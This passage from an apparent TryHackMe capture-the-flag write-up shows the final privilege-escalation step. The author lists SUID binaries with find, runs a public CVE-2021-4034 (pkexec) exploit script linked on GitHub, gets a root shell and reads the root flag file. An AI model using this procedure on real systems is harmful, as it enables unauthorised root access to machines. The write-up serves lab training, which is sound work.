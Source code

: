 ## Privilege Escalation root

Next, I checked for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:
```bash
michael@the-marketplace:~$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/pkexec
  [...]
michael@the-marketplace:/tmp$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7f7145860000 at 0x7f714430a860>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# id
  uid=0(root) gid=1002(michael) groups=1002(michael),999(docker)
# cat /root/root.txt
  THM{d[removed]2}
```

solved! :)
